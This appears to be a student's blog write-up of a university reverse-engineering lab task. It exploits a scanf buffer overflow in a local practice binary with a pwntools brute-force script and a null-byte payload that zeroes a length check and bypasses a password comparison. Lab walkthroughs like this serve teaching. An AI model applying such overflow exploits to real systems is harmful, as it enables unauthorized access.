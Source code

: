 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_5_task_1
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: Simple buffer overflow where you need to overflow an integer as to be 0
categories:
- UNIBUC RE
---
```


Simple buffer overflow where you need to overflow an integer as to be 0


The error is in the scanf function where the program reads as much as we want. We only need to make sure it doesn't contain any 00 because that marks the end.
![](/assets/img/2022-09-01-18-40-46.png)

There are 2 approaches to this:

1. Brute force

```
from pwn import *

for i in range(80):
    io = process("./task1")
    io.recvuntil("Enter password:")
    io.sendline('\0'+i*"x")
    text=io.recv(timeout=1)
    if b'length' not in text:
        print(text)
        print(i)
        break
    io.close()
io.interactive()

```
We send \0 so we get strlen to give 0 and also we override the other length buffer with the string terminator so we have 0 as the other size. 

memcmp will compare 0s with themselves and we win.

b'Congratulations! You have logged in.\nTask 1 solved\n'

So there are 44 characters between the read buffer and the size.

We can test this by inputing 45 characters and seeing if the number showed in the length requirement is the ascii code of the letter we just put in.
![](/assets/img/2022-09-01-19-05-34.png)

Now for the second approach:
![](/assets/img/image.png.png)
We look on the stack and see the space between the two variables.

44 bytes between the two variables can be seen in the picture above. that is '\0'+43*'a'+'\0'